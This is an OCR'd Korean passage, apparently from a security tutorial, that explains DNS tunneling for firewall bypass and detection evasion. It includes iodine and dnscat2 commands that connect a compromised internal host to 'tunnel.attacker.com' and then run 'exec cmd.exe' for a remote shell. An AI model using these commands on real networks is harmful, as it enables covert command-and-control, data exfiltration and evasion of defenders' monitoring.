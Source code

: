 **주요 특징**:
* **방화벽 우회**: 대부분의 네트워크는 DNS 트래픽(UDP/53, TCP/53)을 허용하므로 제한적인 네트워크 환경에서도 외부 통신 가능
* **은닉성**: 정상적인 DNS 트래픽으로 위장하여 탐지 회피
* **느린 속도**: DNS 프로토콜 특성상 대역폭이 제한적 (일반적으로 수 Kbps)
* **높은 오버헤드**: 원본 데이터 대비 많은 DNS 패킷 필요

**구현 방식**:
1. **도메인 인코딩 방식**:
   ```
   # 원본 데이터: "Hello World"
   # 인코딩 후: 
   68656c6c6f776f726c64.tunnel.example.com
   ```

2. **레코드 타입 활용**:
   * **TXT 레코드**: 더 많은 데이터 포함 가능
   * **CNAME/MX/SRV**: 다양한 레코드 타입으로 탐지 회피
   * **NULL 레코드**: 바이너리 데이터 전송에 유리

3. **프래그멘테이션**: 큰 데이터를 여러 DNS 쿼리로 분할하고 재조립

**주요 DNS 터널링 도구**:
* **iodine**: DNS 패킷 내에 IP 트래픽을 터널링
* **dnscat2**: DNS를 통한 명령/제어 채널 제공
* **DNSCat**: 데이터 압축 및 암호화 기능 제공

**iodine 터널링 예시**:
```bash
# 서버 측 설정 (공격자 서버)
iodined -f -c -P password 10.0.0.1 tunnel.attacker.com

# 클라이언트 측 설정 (내부 네트워크 시스템)
iodine -f -P password tunnel.attacker.com

# 터널 설정 후 SSH 연결 예시
ssh user@10.0.0.1
```

이 설정 후, 모든 SSH 트래픽은 DNS 쿼리와 응답으로 캡슐화되어 전송됩니다.

**dnscat2 터널링 예시 (명령어 실행)**:
```bash
# 서버 측 (공격자 서버)
ruby ./dnscat2.rb tunnel.attacker.com

# 클라이언트 측 (내부 네트워크 시스템)
./dnscat2 --domain tunnel.attacker.com

# 서버에서 명령 실행 (셸 획득 후)
dnscat2> window -i 1
dnscat2> exec cmd.exe
```

**DNS 터널링과 일반 DNS 데이터 유출의 차이점**:

| 특성 | DNS 데이터 유출 | DNS 터널링 |
|------|----------------|------------|
| 통신 방향 | 주로 단방향 (내부→외부) | 양방향 통신 지원 |
| 복잡성 | 상대적으로 단순 | 더 복잡한 프로토콜 설계 |
| 속도 | 간헐적 전송 가능 | 지속적인 연결 유지 |
| 탐지 난이도 | 중간 | 높음 (지속적 연결 은닉) |
| 주요 용도 | 데이터 유출 | 원격 제어, 터널링, 프록시 |

